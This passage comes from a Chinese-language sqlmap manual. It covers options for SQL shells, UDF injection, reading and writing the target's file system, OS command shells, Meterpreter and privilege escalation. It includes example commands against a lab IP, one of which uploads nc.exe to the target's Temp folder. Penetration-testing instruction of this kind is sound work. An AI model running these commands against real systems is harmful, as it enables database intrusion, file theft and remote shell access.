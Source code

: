 > 
>    --last=LASTCHAR    最后查询的输出字字符获取
> 
>    --sql-query=QUERY   要执行的SQL语句
> 
>    --sql-shell         提示交互式SQL的shell
> 
>    --sql-file=SQLFILE  要执行的SQL文件

### 1.3.10 暴力

这些选项可以被用来运行暴力检查

>    --common-tables     检查存在共同表
> 
>    --common-columns    检查存在共同列

### 1.3.11 用户自定义函数注入

这些选项可以用来创建用户自定义函数

>    --udf-inject    注入用户自定义函数
> 
>    --shared-lib=SHLIB  共享库的本地路径

### 1.3.12 访问文件系统

这些选项可以被用来访问后端数据库管理系统的底层文件系统

>    --file-read=RFILE   从后端的数据库管理系统文件系统读取文件，SQL Server2005中读取二进制文件example.exe:
> 
> sqlmap.py -u"[http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther](http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther)"--file-read "C:/example.exe" -v 1
> 
>    --file-write=WFILE  编辑后端的数据库管理系统文件系统上的本地文件
> 
>    --file-dest=DFILE   后端的数据库管理系统写入文件的绝对路径

在kali中将/software/nc.exe文件上传到C:/WINDOWS/Temp下：

python sqlmap.py -u"[http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1](http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1)" --file-write"/software/nc.exe" --file-dest "C:/WINDOWS/Temp/nc.exe" -v1

### 1.3.13 操作系统访问

这些选项可以用于访问后端数据库管理系统的底层操作系统

>    --os-cmd=OSCMD   执行操作系统命令（OSCMD）
> 
>    --os-shell          交互式的操作系统的shell
> 
>    --os-pwn          获取一个OOB shell，meterpreter或VNC
> 
>    --os-smbrelay       一键获取一个OOBshell，meterpreter或VNC
> 
>    --os-bof           存储过程缓冲区溢出利用
> 
>    --priv-esc          数据库进程用户权限提升
> 
>    --msf-path=MSFPATH  MetasploitFramework本地的安装路径
> 
>    --tmp-path=TMPPATH  远程临时文件目录的绝对路径
